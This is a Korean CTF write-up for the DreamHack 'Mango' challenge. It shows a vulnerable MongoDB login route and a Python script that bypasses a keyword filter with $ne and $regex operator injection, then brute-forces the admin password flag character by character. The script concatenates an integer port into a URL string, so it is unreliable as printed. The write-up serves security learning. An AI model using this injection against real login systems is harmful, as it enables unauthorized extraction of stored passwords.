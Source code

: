 ```yaml
---
layout: post
title: (DreamHack) Mango
date: 2021-05-25 05:24:00
tags: Security CTF
---
```


NoSQL은 RDMS와는 달리 쿼리문 없이도 데이터베이스에 저장된 데이터를 조작할 수 있는 개념이다. 본 문제에서는 NoSQL에 Blind injection을 수행하여 안에 저장된 데이터를 조회하도록 한다.

Mongo db는 대표적인 NoSQL이며, 비교 연산자, 논리 연산자를 기본적으로 사용할 수 있고, $regex, $where, $elemMatch 연산자를 통해 좀 더 다양한 기능을 수행할 수 있다.

## 풀이

BAN 변수에는 'admin', 'dh', 'admi'의 문자열이 포함되게 되면 필터링하게 되어있다. 따라서 필터링 되지 않도록 $ne guest를 사용하여 admin을 검색할 수 있도록 하였다.

```javascript
// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});
```

BAN에 dh가 있기 때문에 이를 피하기 위해 [D]를 사용했으며, brute force방식과 유사하게 모든 경우의 수를 탐색할 수 있도록 하였다.

```python
import requests

ascii ='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

def url(pwd):
    params = {'uid[$ne]':'guest','upw[$regex]':pwd} #uid=[adm]in 등으로 해주어도 된다.
    port = 15108
    req = requests.get('http://host1.dreamhack.games:' + port + '/login',params = params)
    return req

def search(flag):
    global ascii
    for i in ascii:
        ch = flag + '[' + i + ']'
        if "admin" in url(ch).text:
            flag += '[' + i + ']'
            break
    return i

if __name__ == '__main__':
    flag = '[D]H{'
    for i in range(0, 32):
        flag += search(flag)
    print(flag + '}')
```

### Reference
[1] dreamhack. (2020)."Server-side Advanced - NoSQL." Retrieved from https://dreamhack.io/learn/1/29#7